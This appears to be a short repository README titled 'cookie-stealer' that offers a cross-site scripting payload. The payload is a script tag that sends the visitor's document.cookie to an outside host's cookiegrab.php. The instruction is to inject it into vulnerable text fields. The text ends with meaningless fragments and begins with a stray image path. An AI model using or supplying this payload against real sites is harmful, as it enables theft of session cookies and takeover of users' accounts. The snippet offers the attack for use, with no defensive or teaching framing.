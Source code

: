 # cookie-stealer

inject 
	<script language="javascript"> document.location= " http://kennethzhang.net/cookiegrab.php?c=" + document.cookie; </script>
into vulnerable text fields
Isded
dswd
aa
